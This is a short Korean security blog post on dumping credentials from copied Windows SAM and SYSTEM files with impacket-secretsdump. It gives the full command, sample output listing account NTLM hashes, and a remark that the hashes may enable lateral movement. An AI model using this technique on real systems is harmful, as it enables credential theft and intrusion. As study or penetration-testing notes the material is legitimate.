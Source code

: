 ```yaml
---
layout: post
title: SAM, SYSTEM 덤프하기
subtitle: SAM, SYSTEM 덤프해서 크레덴셜 알아내는 방법
category: knowledge
thumbnail-img: /assets/img/404-southpark.jpg
tags: [sam, system, impacket-secretsdump]
author: Hong
---
```


# SAM과 SYSTEM

윈도우의 system32 폴더 안에는 비밀번호, NTLM 해쉬 같은 크레덴셜 정보를 담고 있는 SAM, SYSTEM같은 파일들이 있다.

민감한 파일들이라 평소에는 보호받고 있어서 복붙도 불가능하다.

하지만 백업파일로 남아있는 경우 (windows.old 같은) 이 민감한 파일들을 이용해서 유저의 크레덴셜을 추출할 수가 있다.

# SAM, SYSTEM 파일에서 정보 추출하기

kali에서 impacket-secretsdump라는 툴을 사용하기 위해 공격자 머신으로 두 파일을 옮길 필요가 있다.

파일들은 system32 폴더 안을 찾아보면 있다.
![SAM](/assets/img/knowledge/samsystem.png)

두 파일을 옮겼으면 다음의 명령어를 사용해서 크레덴셜을 추출한다.

```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
                                                                               Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies                                                                                                                                                                                                     [*] Target system bootKey: 0x8bca2f7ad576c856d79b7111806b533d                                                                        [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                                                                                 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                       DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                              WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::                                                  Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::                                             David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::                                                 Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::                                                [*] Cleaning up...
```

그럼 위와 같이 유저명과 크레덴셜들이 출력되는데 가장 뒤에 있는 게 NTLM 해쉬다.

해쉬를 이용해서 다른 머신으로 래터럴무브먼트가 가능할지도 모른다.
